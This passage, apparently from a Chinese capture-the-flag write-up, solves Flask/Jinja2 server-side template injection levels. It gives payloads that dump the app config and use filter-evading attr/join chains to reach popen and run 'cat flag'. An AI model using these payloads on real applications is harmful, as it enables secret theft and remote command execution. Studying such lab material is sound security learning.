 > 应用上下文会在必要时被创建和销毁。它不会在线程间移动，并且也不会在不同的请求之间共享。正因为如此，它是一个存储数据库连接信息或是别的东西的最佳位置

这里可以尝试用它来进行绕过  
构造的 payload 如下

```bash
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

[![在这里插入图片描述](assets/1698900310-eb952447592d20d07c87455480cb7f1e.png)](https://storage.tttang.com/media/attachment/2022/08/14/95d60abd-7dff-49ce-97fe-4bce48fb62d5.png)

### [level 11](#toc_level-11)

[![在这里插入图片描述](assets/1698900310-ea09a5564d75a7faa2abf41c99499bb4.png)](https://storage.tttang.com/media/attachment/2022/08/14/92e302cb-a002-4a5d-a162-df495c298ac5.png)  
过滤了单引号、双引号、加号、`request`，引号和中括号，这里我们使用这个 payload

```bash
().__class__.__base__.__subclasses__()[133].__init__.__globals__['popen']('cat flag').read()
```

点被过滤，这里用 attr 来替代，关键词的话我们这里可以用 join 拼接来进行获取，修改过后的 payload 如下

```bash
{%set a=dict(__cla=a,ss__=b)|join %}  
{%set b=dict(__bas=a,e__=b)|join %}  
{%set c=dict(__subcla=a,sses__=b)|join %}   
{%set d=dict(__ge=a,titem__=a)|join%}
{%set e=dict(__in=a,it__=b)|join %} 
{%set f=dict(__glo=a,bals__=b)|join %} 
{%set g=dict(pop=a,en=b)|join %} 
{%set h=self|string|attr(d)(18)%}  #构造空格
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(133)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```
